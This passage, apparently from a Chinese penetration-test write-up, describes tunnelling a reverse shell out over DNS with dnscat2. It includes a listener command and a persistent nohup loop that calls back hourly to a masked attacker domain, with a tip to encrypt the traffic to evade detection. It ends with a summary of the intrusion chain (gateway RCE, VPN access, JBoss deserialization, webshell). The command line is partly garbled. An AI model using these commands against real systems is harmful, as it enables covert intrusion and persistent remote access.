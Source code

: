 006.xxx.bio 对应 0.xxx.bio.

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s57lq3ibxTXLPrjy50eSm1jH8njRLXegneRyqBtZIxzkO6HNnr7aWc5MSpsrdVL37nkhj7yYEAxgzxA/640?wx_fmt=png)

本地下载 dnscat2，安装这里跳过，自己去看 github 上的文档叭。

本地执行监听：

./dnscat –dns domain=006.xxx.bio

接着上传 client 对应的代码到 / tmp 下。进行 make 编译。

编译完成后，执行命令。

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s57lq3ibxTXLPrjy50eSm1jH8rpppiaB7xRhFgO7rJKY4iaT5yH3vbDH6wgkEotic8zYBWQNicmUSnnKiaqQ/640?wx_fmt=png)

```
nohup /bin/bash –c “white true; do /tmp/dnscat –dns domain=006.xxx.bio –max-retransmits 5”sleep 3600; done” > /dev/null 2 >&1
```

每隔一个小时进行反弹。

记住这里 --dns domain 一定要填域名，我前面测试尝试直接填 IP 进行 dns 53 端口通信发现不行（以及这个工具支持加密传输，如果怕被流量探测发现可以考虑把流量加密 参数 --secret）。

成功反弹回来本地。

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s57lq3ibxTXLPrjy50eSm1jH8iczBKeV4ky5ggQxVbMnBH6oTQvQdL8FhzLO347y0zwFOGaJKD0tQdFw/640?wx_fmt=png)

然后？

![](https://mmbiz.qpic.cn/mmbiz_jpg/WTOrX1w0s57lq3ibxTXLPrjy50eSm1jH8yibYdF4zb30F4m9gPGSrxfJ9HnkaT0PvsGaVQz6PCml9ERezGdWetZg/640?wx_fmt=jpeg)

然后跟甲方爸爸汇报，甲方爸爸表示对咱们技术很认可，没必要再继续了。

![](https://mmbiz.qpic.cn/mmbiz_jpg/WTOrX1w0s57lq3ibxTXLPrjy50eSm1jH8TKJJnWk1FtdnSGY5G2rIWKl3oMDOVjfuPDVZS8c4iaYd7TUHiaCUXEzg/640?wx_fmt=jpeg)

**总结回顾**

1.  对外网大量资产常规 cms 进行漏洞探测无果。
    
2.  转战发现 EG 易网关。
    
3.  通过 EG 易网关找到未授权命令执行，添加 vpn 进入内网。
    
4.  对内网资产进行探测发现使用 jboss 中间件的服务器, 发现 java 反序列化无法直接利用。
    
5.  本地搭建环境进行漏洞复现，通过本地部署 webshell 到其他目录下绕过限制。
    
6.  发现各种协议无效，通过 dns 协议成功出网，结束本次项目。
    

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s55hGyuQ3vjH8LnEch46xIsCCA3vKcviaWaGVPbPagAMEfvLDVPic3Otn6qW0tI3dtusOFmBb4BjznvA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s564Abiad4b2nUggeFBz8QyCibiaRBNn0A5YI88OyFjU8fn2Isf9bat4vQn18NwG6cXxVOSuKiapNm2nibQ/640?wx_fmt=png)